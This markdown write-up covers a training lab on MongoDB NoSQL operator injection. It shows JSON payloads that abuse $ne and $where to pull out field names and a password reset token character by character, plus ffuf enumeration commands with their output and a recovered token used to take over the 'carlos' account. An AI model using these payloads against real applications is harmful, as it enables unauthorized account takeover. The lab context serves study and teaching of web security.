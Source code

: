 # Exploiting NoSQL operator injection to extract unknown fields
# Objective
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.\
\
To solve the lab, log in as `carlos`.

# Solution
## Analysis

|![](Images/image-24.png)|
|:--:| 
| *Malicious payload leads to account lock* |

Using the following payloads it is possible to change application response by changing value after `$where` statement:
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"0"}
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"1"}
```

|![](Images/image-25.png)|
|:--:| 
|![](Images/image-26.png)|

## Extracting field names
The following payload will allow to retrieve field names letter by letter. When the letter is correct the `where` statement will return `true` - website will return message "Account locked: Please reset your password".
```json
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"Object.keys(this)[0].match('^.{§0§}§a§.*')"}
```
### Burp Suite enumeration
|![](Images/image-27.png)|
|:--:| 
| *Payload positions* |
|![](Images/image-28.png)|
| *Payload settings* |
|![](Images/image-29.png)|
| *Payload settings* |
|![](Images/image-30.png)|
| *Results* |

### FFUF enumeration
```
ffuf -request request.txt -mode clusterbomb -w numbers.txt:FUZZNUM -w alphanumeric.txt:FUZZLETTER -fs 3392
```

|![](Images/image-31.png)|
|:--:| 
| Enumeration for 0 - field name `id` |
|![](Images/image-32.png)|
| Enumeration for 1 - field name `username` |
|![](Images/image-33.png)|
| Enumeration for 2 - field name `password`|
|![](Images/image-34.png)|
| Enumeration for 3 - field name `email` |
|![](Images/image-35.png)|
| Enumeration for 4 - field name `pwResetTkn`|

Enumeration for `4` result in internal server errors.

Website `/forgot-password` is used to validate token:
|![](Images/image-36.png)|
|:--:| 
| Token test |

## Password enumeration
### Burp Suite enumeration
The following payload will allow to retrieve carlos's password reset token letter by letter. When the letter in token is correct the `where` statement will return `true` - website will return message "Account locked: Please reset your password":
```
{"username":"carlos","password":{"$ne":"invalidpassword"},"$where":"this.pwResetTkn.match('^.{§0§}§a§.*')"}
```
|![](Images/image-37.png)|
|:--:| 
| *Payload positions* |
|![](Images/image-38.png)|
|:--:| 
| *Results* |

### FFUF enumeration
```
ffuf -request req.txt -mode clusterbomb -w numbers.txt:FUZZNUM -w alphanumeric.txt:FUZZLETTER -fs 3392
```
Result:
```
[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 220ms]
    * FUZZLETTER: a
    * FUZZNUM: 6

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 53ms]
    * FUZZLETTER: c
    * FUZZNUM: 3

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 55ms]
    * FUZZLETTER: e
    * FUZZNUM: 10

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 58ms]
    * FUZZLETTER: f
    * FUZZNUM: 4

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 81ms]
    * FUZZLETTER: f
    * FUZZNUM: 5

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 54ms]
    * FUZZLETTER: c
    * FUZZNUM: 14

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 271ms]
    * FUZZLETTER: 1
    * FUZZNUM: 11

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 66ms]
    * FUZZLETTER: 2
    * FUZZNUM: 12

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 57ms]
    * FUZZLETTER: 2
    * FUZZNUM: 15

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 62ms]
    * FUZZLETTER: 3
    * FUZZNUM: 0

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 53ms]
    * FUZZLETTER: 5
    * FUZZNUM: 1

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 56ms]
    * FUZZLETTER: 6
    * FUZZNUM: 13

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 77ms]
    * FUZZLETTER: 8
    * FUZZNUM: 8

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 77ms]
    * FUZZLETTER: 8
    * FUZZNUM: 7

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 49ms]
    * FUZZLETTER: 9
    * FUZZNUM: 2

[Status: 200, Size: 3406, Words: 1405, Lines: 67, Duration: 500ms]
    * FUZZLETTER: 9
    * FUZZNUM: 9
```
Token for password reset: `359cffa889e126c2`

## Password reset

|![](Images/image-40.png)|
|:--:| 
| *Requesting password reset page* |
|![](Images/image-39.png)|
| *Resetting password* |